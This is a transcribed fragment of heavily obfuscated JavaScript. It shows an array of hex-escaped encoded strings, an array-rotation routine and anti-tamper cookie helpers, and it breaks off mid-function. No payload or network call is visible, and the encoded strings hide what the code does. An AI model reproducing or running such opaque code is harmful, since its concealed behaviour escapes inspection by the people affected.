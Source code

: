'\x46\x73\x4b\x42\x55\x56\x77\x6a\x4c\x77\x3d\x3d', '\x77\x71\x62\x43\x70\x43\x41\x6a\x77\x6f\x5a\x76', '\x5a\x63\x4b\x41\x77\x71\x76\x44\x75\x63\x4f\x59\x62\x67\x3d\x3d', '\x77\x34\x44\x43\x6d\x30\x50\x43\x68\x38\x4b\x74', '\x66\x7a\x72\x43\x73\x57\x6f\x67\x55\x51\x3d\x3d', '\x77\x70\x44\x43\x6f\x42\x30\x3d', '\x77\x36\x59\x64\x77\x70\x55\x66\x65\x73\x4b\x57', '\x77\x36\x66\x43\x70\x51\x46\x65\x77\x34\x50\x43\x6c\x51\x3d\x3d', '\x77\x6f\x63\x41\x77\x34\x54\x43\x6a\x41\x68\x7a', '\x77\x34\x33\x44\x6f\x47\x45\x65\x65\x6c\x58\x44\x76\x63\x4f\x6c\x48\x77\x3d\x3d', '\x77\x71\x4c\x43\x6a\x73\x4f\x5a\x77\x72\x66\x43\x68\x78\x45\x3d', '\x77\x37\x6a\x44\x73\x38\x4b\x30\x77\x71\x48\x43\x76\x4d\x4b\x50\x77\x35\x77\x57\x66\x73\x4b\x6d\x77\x6f\x6e\x44\x73\x77\x3d\x3d', '\x4b\x4d\x4f\x50\x77\x71\x45\x68\x47\x6b\x63\x3d', '\x52\x73\x4b\x7a\x54\x52\x51\x57\x62\x51\x62\x43\x72\x63\x4b\x66\x77\x35\x4d\x51', '\x45\x78\x6e\x43\x72\x63\x4b\x36\x65\x41\x77\x3d', '\x77\x34\x6a\x44\x75\x47\x6b\x73\x59\x45\x7a\x44\x75\x38\x4f\x39\x45\x30\x2f\x44\x71\x38\x4f\x59\x77\x37\x30\x3d', '\x77\x37\x54\x44\x73\x38\x4f\x70\x77\x70\x68\x30\x4b\x38\x4f\x52\x77\x37\x52\x4a\x55\x6a\x34\x52\x63\x51\x2f\x43\x74\x52\x31\x71\x77\x70\x39\x63\x4b\x33\x4a\x57\x77\x36\x63\x3d', '\x58\x4d\x4f\x63\x77\x34\x38\x4c\x77\x70\x70\x34', '\x77\x35\x56\x30\x57\x54\x44\x43\x71\x38\x4b\x45\x4c\x57\x38\x4c\x59\x73\x4f\x6c\x77\x6f\x44\x43\x76\x4d\x4f\x4b\x61\x53\x74\x4b\x45\x38\x4b\x76\x57\x38\x4b\x6a\x57\x67\x3d\x3d', '\x77\x71\x37\x44\x6b\x38\x4f\x55\x77\x37\x35\x78\x53\x77\x3d\x3d', '\x77\x36\x6b\x38\x62\x31\x68\x69\x49\x54\x50\x44\x70\x78\x6a\x43\x6b\x38\x4f\x69\x4c\x67\x42\x31\x4d\x44\x6b\x6e\x77\x36\x58\x43\x70\x73\x4b\x44\x41\x53\x76\x43\x70\x63\x4f\x36\x61\x33\x4c\x43\x71\x48\x48\x44\x68\x63\x4f\x61', '\x77\x35\x77\x36\x77\x6f\x73\x4a\x62\x4d\x4b\x42\x44\x4d\x4f\x34\x43\x7a\x46\x77\x45\x57\x70\x6b\x53\x4d\x4f\x68\x77\x72\x6f\x43\x5a\x38\x4b\x37\x77\x70\x49\x3d', '\x77\x37\x49\x77\x77\x72\x49\x52\x77\x70\x66\x43\x68\x46\x6e\x43\x6c\x38\x4b\x45\x4d\x58\x41\x4f\x77\x71\x72\x43\x73\x51\x56\x68\x77\x72\x37\x44\x68\x4d\x4b\x78\x77\x6f\x46\x50\x42\x51\x39\x34\x77\x36\x37\x43\x72\x33\x51\x6b\x77\x6f\x37\x44\x6d\x73\x4b\x68\x48\x63\x4f\x42\x77\x35\x6e\x43\x76\x63\x4b\x36\x62\x51\x3d\x3d', '\x61\x54\x76\x44\x75\x4d\x4b\x77\x77\x36\x70\x2f', '\x77\x35\x76\x43\x73\x77\x74\x70\x77\x72\x50\x44\x71\x33\x6b\x52\x77\x6f\x34\x50\x77\x72\x62\x44\x6b\x7a\x67\x4b\x4b\x4d\x4f\x75\x77\x6f\x50\x44\x6e\x44\x7a\x43\x69\x63\x4f\x52\x54\x55\x42\x48\x5a\x77\x44\x44\x6a\x47\x55\x3d'];
(function(_0x53f054, _0x204b87) {
    var _0x2d1173 = function(_0x33cdf7) {
        while (--_0x33cdf7) {
            _0x53f054['\x70\x75\x73\x68'](_0x53f054['\x73\x68\x69\x66\x74']());
        }
    };
    var _0x4a0a8d = function() {
        var _0x241747 = {
            '\x64\x61\x74\x61': {
                '\x6b\x65\x79': '\x63\x6f\x6f\x6b\x69\x65',
                '\x76\x61\x6c\x75\x65': '\x74\x69\x6d\x65\x6f\x75\x74'
            },
            '\x73\x65\x74\x43\x6f\x6f\x6b\x69\x65': function(_0x10dbea, _0xeed951, _0x2b7e3b, _0x3cf55b) {
                _0x3cf55b = _0x3cf55b || {};
                var _0x91680c = _0xeed951 + '\x3d' + _0x2b7e3b;
                var _0x1798b4 = 0x0;
                for (var _0x1798b4 = 0x0, _0x4c9d49 = _0x10dbea['\x6c\x65\x6e\x67\x74\x68']; _0x1798b4 < _0x4c9d49; _0x1798b4++) {
                    var _0x1a8e95 = _0x10dbea[_0x1798b4];
                    _0x91680c += '\x3b\x20' + _0x1a8e95;
                    var _0x180cfa = _0x10dbea[_0x1a8e95];
                    _0x10dbea['\x70\x75\x73\x68'](_0x180cfa);
                    _0x4c9d49 = _0x10dbea['\x6c\x65\x6e\x67\x74\x68'];
                    if (_0x180cfa !== !![]) {
                        _0x91680c += '\x3d' + _0x180cfa;
                    }
                }
                _0x3cf55b['\x63\x6f\x6f\x6b\x69\x65'] = _0x91680c;
            },
            '\x72\x65\x6d\x6f\x76\x65\x43\x6f\x6f\x6b\x69\x65': function() {
                return '\x64\x65\x76';
            },
            '\x67\x65\x74\x43\x6f\x6f\x6b\x69\x65': function(_0x168dd9, _0x267b90) {
                _0x168dd9 = _0x168dd9 || function(_0x3a9829) {
                    return _0x3a9829;
                }
                ;